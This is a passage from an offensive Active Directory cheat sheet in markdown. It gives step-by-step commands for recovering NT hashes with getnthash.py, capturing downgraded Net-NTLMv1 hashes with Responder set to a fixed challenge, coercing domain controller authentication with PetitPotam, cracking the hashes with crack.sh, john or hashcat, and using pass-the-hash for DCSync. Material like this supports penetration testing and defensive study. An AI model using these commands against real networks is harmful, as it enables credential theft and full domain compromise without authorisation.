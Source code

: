     # use the session key to recover the NT hash
    $ export KRB5CCNAME="TGT_CCACHE_FILE" getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
    ```

### Capturing and cracking Net-NTLMv1/NTLMv1 hashes

> Net-NTLM (NTLMv1) hashes are used for network authentication (they are derived from a challenge/response algorithm and are based on the user's NT hash. 

:information_source: : Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.

**Requirements**:
* LmCompatibilityLevel = 0x1: Send LM & NTLM (`reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel`)

**Exploitation**:
* Capturing using Responder: Edit the /etc/responder/Responder.conf file to include the magical **1122334455667788** challenge
    ```ps1
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```
* Fire Responder: `responder -I eth0 --lm`
* Force a callback:
    ```ps1
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```
* If you got some `NTLMv1 hashes`, you need to format them to submit them on [crack.sh](https://crack.sh/netntlm/)
    ```ps1
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
    ```
* Or crack them with Hashcat / John The Ripper
    ```ps1
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt
    ```
* Now you can DCSync using the Pass-The-Hash with the DC machine account

:warning: NTLMv1 with SSP(Security Support Provider) changes the server challenge and is not quite ideal for the attack, but it can be used.
